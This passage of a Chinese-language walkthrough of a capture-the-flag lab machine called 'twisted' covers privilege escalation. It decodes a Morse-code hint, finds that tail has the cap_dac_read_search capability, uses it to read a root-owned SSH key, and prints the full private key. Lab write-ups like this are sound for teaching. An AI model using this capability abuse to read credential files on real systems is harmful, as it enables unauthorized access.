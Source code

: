 ```PHP
markus@twisted:/var/cache/apt$ ls -l
total 62172
drwxr-xr-x 3 root root    12288 Oct 14  2020 archives
-rw------- 1 root root     1823 Oct 14  2020 id\_rsa
-rw-r--r-- 1 root root 31831069 Oct 14  2020 pkgcache.bin
-rw-r--r-- 1 root root 31810419 Oct 14  2020 srcpkgcache.bin
```
但我们没有权限读取这个私钥

mateo的提示

```PHP
mateo@twisted:~$ cat note.txt 
/var/www/html/gogogo.wav
```
听一下这个音频感觉像是摩斯电码

解密https://morsecode.world/international/decoder/audio-decoder-adaptive.html

G O D E E P E R . . . C O M E W I T H M E . . . L I T T L E R A B B I T . . .

好像没有什么意义

常见的提权SUID 与 SUDO 都看了 

看一下Capability

```PHP
mateo@twisted:/var/www/html$ /sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap\_net\_raw+ep
/usr/bin/tail = cap\_dac\_read\_search+ep
```
用tail读取私钥

```PHP
tail -c1G "/var/cache/apt/id\_rsa"
```


```PHP
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
利用私钥切换到bonita用户
